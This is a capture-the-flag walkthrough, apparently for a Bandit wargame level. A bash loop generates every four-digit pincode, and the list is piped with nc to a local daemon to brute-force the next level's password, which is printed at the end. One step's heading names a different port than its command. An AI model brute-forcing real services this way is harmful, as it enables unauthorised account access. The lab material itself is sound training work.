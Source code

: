 # Bandit Level 24 --> Level 25
## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.



## Solution

Make bash script generate list of passwords in tmp dir
```console
bandit24@bandit:~$ mkdir /tmp/bandlev25
bandit24@bandit:~$ cd /tmp/bandlev25
bandit24@bandit:/tmp/bandlev25$ nano script.sh
bandit24@bandit:/tmp/bandlev25$ cat script.sh
#!/bin/bash

for i  in  {0000..9999}
  do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> list.txt
  done
```

Change mode of script to make it executable then run it
```console
bandit24@bandit:/tmp/bandlev25$ chmod 777 script.sh
bandit24@bandit:/tmp/bandlev25$ ./script.sh
bandit24@bandit:/tmp/bandlev25$ ls
list.txt script.sh
```

Give passwords list to daemon on port 30001
```console
cat list.txt |  nc localhost 30002
```

## Password
> uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

  
